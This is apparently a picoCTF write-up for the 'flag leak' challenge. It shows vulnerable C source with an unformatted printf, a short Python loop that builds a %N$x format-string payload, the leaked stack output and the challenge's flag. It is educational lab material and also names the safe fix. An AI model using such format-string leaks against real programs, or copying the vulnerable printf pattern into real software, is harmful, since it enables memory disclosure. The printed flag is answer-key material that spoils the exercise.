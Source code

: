 # flag leak

Author: David

## Description

Story telling class 1/2

## Solution

Running the program normally, we see this:
```
$ ./vuln
Tell me a story and then I'll tell you one >> aaaaaaaaaaaaaaaaaaa
Here's a story - 
aaaaaaaaaaaaaaaaaaa
```

This challenge was tagged with "format_string", and this is a major suggestion on how we can go about exploiting this binary. 

A format string exploit refers to abusing the `scanf()` and `printf()` functions in C to leak information from the program. The source code has been given to us, so we can confirm this is correct.
```
void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}
```

From the above code, the program receives our input with `scanf()`, but the lack of a format specifier with `printf()` makes this function vulnerable. Examples of format specifiers include `%s` or `%x`, and they're used to print a particular type of data (strings, integers, hexadecimal).
* For better security, `printf("%s", story)` should be used instead.

If we supply input as format specifiers, we should be able to leak information. The `%x` format specifier should be used because it reads data from the stack, and the `$` can be used to leak an address from a certain position. We have to play around with this to get it right. In Python, a for loop like this is handy for building the payload:
```
for i in range(36, 50):
    payload += b".%" + str(i).encode() + b"$x"
```

I found the flag starts at the 36th position. Run the exploit script (see below) to get this string:
`b'.6f636970.7b465443.6b34334c.5f676e31.67346c46.6666305f.3474535f.345f6b63.65353133.7d666631.fbad000a.e0ec2200.3e8.804c000\n'`

Swap the endianness (CyberChef works well.) to see the flag.

**Flag: picoCTF{L34k1ng_Fl4g_0ff_St4ck_4315e1ff}**
